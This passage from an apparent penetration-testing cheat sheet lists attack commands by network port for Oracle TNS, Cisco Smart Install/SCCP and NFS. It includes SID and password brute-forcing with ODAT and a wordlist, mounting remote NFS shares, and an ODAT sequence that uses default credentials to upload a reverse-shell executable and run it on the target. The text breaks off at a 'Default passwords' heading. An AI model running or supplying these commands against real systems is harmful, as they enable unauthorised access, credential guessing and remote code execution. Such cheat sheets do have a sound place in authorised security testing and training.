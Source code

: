 ## Port 1521 - Oracle

```bash
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

# https://github.com/quentinhardy/odat
./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

# Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

# and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe
```

## Port 2000 - Cisco sccp

```bash
# cisco-audit-tool
CAT -h ip -p 2000 -w /usr/share/wordlists/rockyou.txt 

# cisco-smart-install
https://github.com/Sab0tag3d/SIET/
sudo python siet.py -g -i 192.168.0.1
```

## Port 2049 - NFS

```bash
nmap -p 111,2049 --script nfs-ls,nfs-showmount

showmount -e 10.11.1.111

# If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS –o nolock
mount -t nfs 10.11.1.111:/ /tmp/NFS –o nolock
```

## Port 2100 - Oracle XML DB

Default passwords:
